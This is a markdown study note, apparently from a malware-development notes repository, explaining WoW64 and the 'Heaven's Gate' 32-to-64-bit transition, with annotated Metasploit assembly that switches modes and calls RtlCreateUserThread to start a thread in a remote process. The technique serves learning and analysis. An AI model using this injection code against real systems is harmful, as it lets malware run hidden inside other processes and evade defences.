






# Windows-on-Windows ( WoW64)

The Windows-on-Windows (WoW64) is a Windows subsystem that works in the user  address space. Allow older 32 applications to work on 64bit application. This is allow backward compatibility of 32 applications on 64bit machines without the need for an application to be recompiled. 


***Sektor7 Institute***

WoW64 is an emulator which acts as an interface between the 32 application and kernel which purely on 64bit. There are three main DLLs which performs this emulation:

-`WoW64.dll` - This provides the core emulation infrastructure to access the `Ntoskrnl.exe` which is the main part of the kernel space.
-`WoW64cpu.dll` - Provides support for running x86 programs on x64. This DLL is related to Intel CPU.
-`WoW64Win.dll` - Provides access to `win32k.sys` which is the GUI subsystem.

In startup the `Wow64.dll` loads the x86 version of `ntdll.dll` into the process and runs its initialisation code, which loads all necessary 32bit DLLs into the process. Almost all these 32bit DLLs are unmodified copies of 32bit windows binaries. 

So when a program such as `notepad.exe` calls for anything in user space, this happens in 32bit ( most often). But if the system call needs to be made, then call gets redirected to 64bit ntdll and lands in kernel space. During this operation, the process needs to transition from 32bit to 64bit mode. This transition happens with **Heavens Gate**.

Let us take the example of 32bit notepad.exe. Using ProcessHacker we can see the various modules loaded:



As discussed the WOW modules which we discussed is in the module list along with the 32bit and 64bit versions of `ntdll.dll`.



## Witness heavens Gate in action

To demonstrate this, open a 32bit process such as `notepad.exe` on x32dbg.exe. Click on `symbols` tab and select `ntdll.dll` module. From the list of functions on the right column, select `ntcreatethread` function, which to lead to disassembler tab pointing to the base address location of `ntcreatethread`.



The disassembler will have several of `WoW64SystenServiceCalls` .  These are system calls and as discussed whenever a system call is executed, the process transitions from 32bit to 64bit and returns back to 32bit. Click on one of these system calls follow the jump i.e. right-click on the call and select "Follow in disassembler" and choose the address in ntdll.
 
 
 
 Another call called WOW64transition. Lets follow this as well.
 
 
 
 We see the `jmp far 33:77CF6009` instruction is the heaven gate. After this instruction, process will enter 64bit address space. The selector number 33 ( hex ) is used for transition to 64bit process. After execution of the system call, the process returns back to 32bit process in which case the selector number would be 23.

## Understanding transition 32bit to 64bit.

We know that we can insert 64bit payload from a 32bit process into the 64bit target process, but we can execute this remotely from a 32bit process. In order to execute this remote payload, we must transition from 32bit to 64bit and then execute the remote process from this 64bit context.

This is done with the help of 2 functions:

1. ExecuteX64 - This is allow us to transit from 32bit to 64bit mode. Then invoke the function `x64Function`.
2. X64Function - This function with parameter Ctx  which is a special structure with parameters for `RtlCreateUserThread` ). This function will take the handle to the process and start address of the remote process. Upon execution, the handle to the newly created thread in a remote process.

Lets walk through the code of these two functions.

### Execute64

The below code can be found is metasploit Github repository [here](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/migrate/executex64.asm).

The following is the function prototype of the function we are trying to call:
```cpp
typedef DWORD (WINAPI * EXECUTEX64)( X64FUNCTION pFunction, DWORD dwParameter );

[BITS 32]

WOW64_CODE_SEGMENT	EQU 0x23
X64_CODE_SEGMENT	EQU 0x33
```

Note that function has two parameters and since we are in 32bit mode, the parameter to the function are passed to the stack.

```cpp
start:
	push ebp 								
	mov ebp, esp							
	push esi								
	push edi								
	mov esi, [ebp+8]			 ; ESI = pFunction
	mov ecx, [ebp+12]			; ECX = dwParameter
	call delta		
```

In the first four instruction, the stack is prepared and `mov` instruction move the parameters from the stack to `ESI` and `ECX` registers. Then label `delta` is called.

```cpp
delta:
	pop eax			
```

Note that every time a `call` instruction is called, the return address is saved to the stack, so `pop` instruction would save the return address on the `EAX`. Since `pop eax` is the next instruction after the `call`, the register `EAX` would have its own instruction address saved in it.

```cpp
add eax, (native_x64-delta)	
```

This instruction will find the location of `native_x64` code labelled. To accomplish this by finding number of bytes between `native_x64` code and `delta`. This is then added to `EAX` register which has address to itself. After this instruction, the address in `EAX` would point to `native_x64` label.

```cpp
sub esp, 8								
mov edx, esp							
mov dword [edx+4], X64_CODE_SEGMENT		
mov dword [edx], eax			
call go_all_native				
```

Make some space in the stack to make the transition to 64bit. For this purpose the code selection to moved to `EDX` register. Note that code segments are declared in the beginning of the assembly file. And the address of the location we want to jump to which is the `native_x64` found earlier is moved to `EDX` as well. Then call `go_all_native` jump instruction.

```cpp
go_all_native:
	mov edi, [esp]						
	jmp dword far [edx]						
```

Just as discussed before, `ESP` would have the return address from the previous `CALL` instruction which would point to line 43. Then execute the `Far` instruction which would make the transition to 64bit mode.

```cpp
native_x64:
[BITS 64]									
	xor rax, rax							
	push rdi								
	call rsi								
	pop rdi									
	push rax								
	mov dword [rsp+4], WOW64_CODE_SEGMENT	; 
	mov dword [rsp], edi					
	jmp dword far [rsp]				
```

The above set of instructions are executed are in 64bit code. The `EDI` would have the return address and `ESI` would have the address of `X64Function` which is then called. After this function is executed, the code segment is changed to `WOW64_CODE_SEGMENT` which is 32bit code selector. Then `FAR` instruction is called to transition back to 32bit. 

```cpp
mov ax, ds								
mov ss, ax								
	
add esp, (8+4+8)						
pop edi									
pop esi								
pop ebp									
retn (4*2)			
```
The remaining instruction performs some bug fixes, clears stack and restores registers.

### X64Function

The code to the function can be found is Metasploit Github repository [here](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/migrate/remotethread.asm).

This function is in the form (where the param is a pointer to a WOW64CONTEXT):
```cpp
typedef BOOL (WINAPI * X64FUNCTION)( DWORD dwParameter );
```

Note that this code is executed in 64bit context as we have already made the transition

```cpp
[BITS 64]
[ORG 0]
  cld                    
  mov rsi, rcx           
  mov rdi, rsp           
  and rsp, 0xFFFFFFFFFFFFFFF0 ;
  call start           
```

In the previous section, the `ECX` points to `dwParameter` which is originally the pointer to the WOW64Context parameter. This is passed to `RSI`.  Save the return address from `RSP` to `RSI` before force aligning the register in the next instruction.

```
delta:                   ;
%include "./src/block/block_api.asm"
start:                   ;
  pop rbp
```
The pop instruction would have the return address of the instruction after the `CALL` instruction. This is stored in `RBP` register. The `%include "./src/block/block_api.asm"` is a code finds the `ntdll.dll` module address and find the location and find the `RTLCreateRemoteThread` function which we are using to execute the remote code.

We'll not look at this too closely.

```cpp
xor r9, r9             	 ; StackZeroBits = 0
push r9                ; ClientID = NULL
lea rax, [rsi+24]      ; RAX is now a pointer to ctx->t.hThread
push rax               ; ThreadHandle = &ctx->t.hThread
push qword [rsi+16]    ; StartParameter = ctx->p.lpParameter
push qword [rsi+8]     ; StartAddress = ctx->s.lpStartAddress
push r9                ; StackCommit = NULL
push r9                ; StackReserved = NULL
mov r8, 1              ; CreateSuspended = TRUE
xor rdx, rdx           ; SecurityDescriptor = NULL
mov rcx, [rsi]         ; ProcessHandle = ctx->h.hProcess
```

This code sets up parameters to the function `RtlCreateUserThread`. These are parameters from the `_WOW64CONTEXT` structure.

The following are the function parameters that were pushed to the stack above:
```cpp
RtlCreateUserThread( ctx->h.hProcess, NULL, TRUE, 0, NULL, NULL, ctx-s.lpStartAddress, ctx->p.lpParameter, &ctx->t.hThread, NULL )
```

The following code call to the `RtlCreateRemotethread` function.

```cpp
mov r10d, 0x40A438C8   ; hash( "ntdll.dll", "RtlCreateUserThread" ) 
call rbp               
test rax, rax          
jz success             
mov rax, 0           
jmp cleanup            
```

At this point, the function is called. If this call was successful the `RAX` register would have value as `0` which indicates success.

[back](../malware.md)